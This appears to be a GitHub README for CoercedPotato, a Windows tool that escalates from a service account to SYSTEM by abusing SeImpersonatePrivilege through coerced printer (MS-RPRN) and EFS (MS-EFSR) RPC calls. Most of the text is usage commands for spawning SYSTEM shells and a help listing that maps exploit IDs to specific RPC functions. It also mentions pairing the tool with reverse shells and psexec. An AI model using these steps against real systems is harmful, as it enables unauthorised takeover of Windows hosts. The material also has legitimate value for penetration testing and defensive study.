

# Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: an article is coming very soon :D

A very quick PoooooC:

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

<p align="center">
  
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                ```

Usage : Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

       .\CoercedPotato.exe -c cmd.exe
